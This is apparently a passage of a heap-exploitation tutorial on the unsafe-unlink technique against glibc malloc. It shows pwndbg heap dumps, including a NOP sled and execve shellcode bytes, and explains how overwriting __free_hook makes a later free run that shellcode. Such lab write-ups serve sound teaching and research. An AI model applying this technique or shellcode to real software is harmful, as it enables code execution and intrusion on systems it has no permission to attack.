 Next , we'll focus on the first half of the reflected write, in wich our bk will copied to where our fd points.

That way, when we attempt to free another chunk after the unlinking has taken place,our shellcode will be executed instead.

So let's point out fd at the free hook minus 0x18 to account for the fact that malloc will treat whatever our fd point to as a chunk and overwrite its.

## First half of the unlinking procedure

```
pwndbg> vis

0x555555757000	0x0000000000000000	0x0000000000000091	................
0x555555757010	0x00007ffff7dd6790	0x0000555555757020	.g...... puUUU..
0x555555757020	0x90909090909016eb	0x9090909090909090	................
0x555555757030	0x9090909090909090	0x010101010101b848	........H.......
0x555555757040	0x68632eb848500101	0x0431480169722e6f	..PH..cho.ri.H1.
0x555555757050	0xf631d231e7894824	0x000000050f583b6a	$H..1.1.j;X.....
0x555555757060	0x0000000000000000	0x0000000000000000	................
0x555555757070	0x0000000000000000	0x0000000000000000	................
0x555555757080	0x0000000000000000	0x0000000000000000	................
0x555555757090	0x0000000000000090	0x0000000000000090	................
0x5555557570a0	0x0000000000000000	0x0000000000000000	................
0x5555557570b0	0x0000000000000000	0x0000000000000000	................
0x5555557570c0	0x0000000000000000	0x0000000000000000	................
0x5555557570d0	0x0000000000000000	0x0000000000000000	................
0x5555557570e0	0x0000000000000000	0x0000000000000000	................
0x5555557570f0	0x0000000000000000	0x0000000000000000	................
0x555555757100	0x0000000000000000	0x0000000000000000	................
0x555555757110	0x0000000000000000	0x0000000000000000	................
0x555555757120	0x0000000000000000	0x0000000000020ee1	................	 <-- Top chunk
pwndbg> p &__free_hook
$2 = (void (**)(void *, const void *)) 0x7ffff7dd67a8 <__free_hook>
```

Continue execution, free b chunk and visualize the heap ...

```
pwndbg> vis

0x555555757000	0x0000000000000000	0x0000000000021001	................	 <-- Top chunk

```

But it was first consolidated with chunk A, then consolidated into top chunk afterwards.

Dumping the memory that the free hook points to reveals that it's pointing to our shell code on the heap.

## Second half of unlinking procedure 

Our BK was followed and our FD copied over the FD at its destination.
